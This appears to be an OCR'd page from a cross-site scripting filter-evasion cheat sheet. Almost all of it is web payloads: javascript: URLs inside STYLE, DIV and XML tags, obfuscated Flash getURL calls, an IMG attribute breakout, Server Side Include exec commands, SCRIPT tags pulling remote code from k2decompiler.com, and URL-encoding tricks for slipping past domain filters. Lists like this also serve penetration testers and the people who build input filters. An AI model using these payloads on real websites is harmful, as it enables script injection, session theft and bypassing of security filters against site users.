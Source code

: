 ```
```
Div background-image:
```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```
STYLE tags with broken up JavaScript for XSS:
```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```
STYLE tag using background-image:
```
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```
STYLE tag using background:
```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
```

Using an OBJECT tag you can embed a flash movie that contains XSS:
```
getURL("javascript:alert('XSS')")
```
Using the above action script inside flash can obfuscate your XSS vector:
```
a="get";
b="URL";
c="javascript:";
d="alert('XSS');";
eval(a+b+c+d);
```
XML:
```
<XML SRC="javascript:alert('XSS');">
```
Assuming you can only write into the <IMG SRC="$yourinput"> field and the string "javascript:" is recursively removed:
```
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
```
Assuming you can only fit in a few charachters and it filters against ".js" you can rename your JavaScript file to an image as an XSS vector:
```
<SCRIPT SRC="http://k2decompiler.com/xss.jpg"></SCRIPT>
```

SSI (Server Side Includes) requires SSI to be installed on the server: 
```
<!--#exec cmd="/bin/echo '<SCRIPT
SRC'"--><!--#exec cmd="/bin/echo
'=http://k2decompiler.com/a.js></SCRIPT>'"-->
```
**XSS using HTML quote encapsulation:**
```
<SCRIPT a=">" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT =">" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://k2decompiler.com/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://k2decompiler.com/a.js"></SCRIPT>
```
**URL string evasion (assuming "http://www.google.com/" is programmatically disallowed):**
```
<A HREF=http://66.102.7.147/>link</A>
<A HREF=http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D>link</A>
<A HREF=ht://www.google.com/>link</A>
<A HREF=http://google.com/>link</A>
<A HREF=http://www.google.com./>link</A>
<A HREF="javascript:document.location='http://www.google.com/'">link</A>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```